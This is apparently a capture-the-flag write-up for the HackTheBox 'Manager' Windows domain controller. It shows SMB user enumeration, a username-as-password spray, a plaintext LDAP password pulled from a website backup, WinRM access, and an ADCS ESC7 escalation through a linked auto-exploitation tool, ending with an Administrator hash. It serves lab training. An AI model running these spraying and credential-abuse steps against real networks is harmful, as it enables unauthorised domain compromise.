

## Entry

Lets start with nxc and create our /etc/hosts file first.

```bash
➜  manager nxc smb 10.10.11.236
SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
➜  manager sudo nxc smb 10.10.11.236 --generate-hosts-file /etc/hosts
SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
➜  manager cat /etc/hosts
[SNIP]
10.10.11.236     DC01.manager.htb manager.htb DC01
```

and lets just run nmap scan and lets see if some different port is open

```bash
53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp   open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: Manager
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-07-08 07:56:44Z)
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 127
464/tcp  open  kpasswd5?     syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
1433/tcp open  ms-sql-s      syn-ack ttl 127 Microsoft SQL Server 2019 15.00.2000.00; RTM
```

okey **80** and **1433** ports are open those are interesting lets check smb shares if we have Guest access otherwise i will check website

### Enum SMB



okey we can extract usernames etc here but we dont have access on `shares` yet.

```bash
nxc smb DC01.manager.htb -u 'Guest' -p '' --rid-brute
➜  manager vim ridusers.txt
➜  manager cat ridusers.txt | grep -i "SidTypeUser" | awk '{print $6}' | cut -d '\' -f2 > users.txt 
➜  manager cat users.txt 
Administrator
Guest
krbtgt
DC01$
Zhong
Cheng
Ryan
Raven
JinWoo
ChinHae
Operator
```

and lets try if someones using his password as his usernames.


okey its happening me before so i decided to create usernames with uppercase and lowercase together.

```bash
➜  manager lookupsid.py Guest@manager.htb -no-pass | grep SidTypeUser | cut -d' ' -f2 | cut -d'\' -f2 | tr '[:upper:]' '[:lower:]' | tee users
/usr/local/bin/lookupsid.py:4: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  __import__('pkg_resources').run_script('impacket==0.13.0.dev0+20250523.184829.f2f2b367', 'lookupsid.py')
administrator
guest
krbtgt
dc01$
zhong
cheng
ryan
raven
jinwoo
chinhae
operator
```

okey now lets try again.

```bash
➜  manager nxc smb DC01.manager.htb -u users -p users --no-bruteforce --continue-on-success 
SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [-] manager.htb\administrator:administrator STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\guest:guest STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\krbtgt:krbtgt STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\dc01$:dc01$ STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\zhong:zhong STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\cheng:cheng STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\ryan:ryan STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\raven:raven STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\jinwoo:jinwoo STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\chinhae:chinhae STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [+] manager.htb\operator:operator 
```

nice we got it. lets check if we have mssql access.

### mssql


okey lets check we have only `Guest` access but i remember we have webserve at port **80** and lets see if we can read some files with `xp_dirtree`


we can download it directly. 

```bash
➜  manager cp /home/elliot/Downloads/website-backup-27-07-23-old.zip .
➜  manager unzip website-backup-27-07-23-old.zip 
Archive:  website-backup-27-07-23-old.zip
  inflating: .old-conf.xml
```

.old-conf.xml okey its fucking suspicious.

```bash
➜  manager cat .old-conf.xml 
<?xml version="1.0" encoding="UTF-8"?>
<ldap-conf xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
   <server>
      <host>dc01.manager.htb</host>
      <open-port enabled="true">389</open-port>
      <secure-port enabled="false">0</secure-port>
      <search-base>dc=manager,dc=htb</search-base>
      <server-type>microsoft</server-type>
      <access-user>
         <user>raven@manager.htb</user>
         <password>R4v3nBe5tD3veloP3r!123</password>
```

we got the password lets do password pray

```bash
➜  manager nxc smb DC01.manager.htb -u users -p 'R4v3nBe5tD3veloP3r!123' --continue-on-success
SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
[SNIP]
SMB         10.10.11.236    445    DC01             [+] manager.htb\raven:R4v3nBe5tD3veloP3r!123 
```

its only work for Raven. Let see.

```bash
➜  manager nxc winrm DC01.manager.htb -u raven -p 'R4v3nBe5tD3veloP3r!123'
WINRM       10.10.11.236    5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:manager.htb)
WINRM       10.10.11.236    5985   DC01             [+] manager.htb\raven:R4v3nBe5tD3veloP3r!123 (Pwn3d!)
```

we can read user.txt tho

```bash
➜  manager nxc ldap DC01.manager.htb -u raven -p 'R4v3nBe5tD3veloP3r!123' --bloodhound --dns-server 10.10.11.236 --collection All
LDAP        10.10.11.236    389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:manager.htb)
LDAP        10.10.11.236    389    DC01             [+] manager.htb\raven:R4v3nBe5tD3veloP3r!123 
LDAP        10.10.11.236    389    DC01             Resolved collection methods: rdp, dcom, trusts, container, session, acl, psremote, localadmin, group, objectprops                                                                                                                                                     
LDAP        10.10.11.236    389    DC01             Done in 00M 19S
LDAP        10.10.11.236    389    DC01             Compressing output into /home/elliot/.nxc/logs/DC01_10.10.11.236_2025-07-07_211920_bloodhound.zip
```

we also have **LDAP** access i dumped BH data.


but nothing interesting so lets check **ADCS**

## ESC7

```bash
➜  manager nxc ldap DC01.manager.htb -u raven -p 'R4v3nBe5tD3veloP3r!123' -M adcs
LDAP        10.10.11.236    389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:manager.htb)
LDAP        10.10.11.236    389    DC01             [+] manager.htb\raven:R4v3nBe5tD3veloP3r!123 
ADCS        10.10.11.236    389    DC01             [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS        10.10.11.236    389    DC01             Found PKI Enrollment Server: dc01.manager.htb
ADCS        10.10.11.236    389    DC01             Found CN: manager-DC01-CA

```

okey thats seems like way let me use my own tool 

https://github.com/lineeralgebra/autoadcspwner

it will detect and pwn auto.

```bash
➜  manager git clone https://github.com/lineeralgebra/autoadcspwner
Cloning into 'autoadcspwner'...
remote: Enumerating objects: 81, done.
remote: Counting objects: 100% (81/81), done.
remote: Compressing objects: 100% (74/74), done.
remote: Total 81 (delta 30), reused 0 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (81/81), 2.41 MiB | 479.00 KiB/s, done.
Resolving deltas: 100% (30/30), done.
➜  manager cd autoadcspwner
```

and boommm


and BAMMM


## Creds

| username | password / hash | work at | from | privileges |
| --- | --- | --- | --- | --- |
| operator | operator | mssql | password spray | mssql xp_dirtree |
| raven | R4v3nBe5tD3veloP3r!123 | LDAP | .old-conf.xml  | ESC7 |
| Administrator | ae5064c2f62317332c88629e025924ef | everywhere | ESC7 | DA |

## Tools

https://github.com/lineeralgebra/autoadcspwner
